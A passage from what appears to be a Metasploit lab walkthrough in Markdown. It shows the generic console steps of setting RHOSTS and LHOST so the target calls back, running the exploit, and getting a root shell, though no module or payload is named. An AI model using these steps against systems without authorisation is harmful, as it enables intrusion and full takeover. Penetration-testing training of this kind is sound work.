 3. **Set options**:
	After loading the exploit, you'll need to configure the necessary options like **RHOSTS** (the target IP).

	You can list the required options by typing:
	```bash
	show options
	```

4. **Set the target IP**:
	```bash
	set RHOSTS <target IP>
	```
5. **Set the local IP**

	When using a virtual machine (VM), it's often necessary to configure LHOST (local host) to ensure the target machine can communicate back to your attacking system.

	```bash
	SET LHOST <local IP>
	```

	![alt text](images/image-7.png)

Now we can type 
```bash
run
```
or
```bach
exploit
```

![alt text](images/image-8.png)
And as we can see, we have a shell with root privileges.
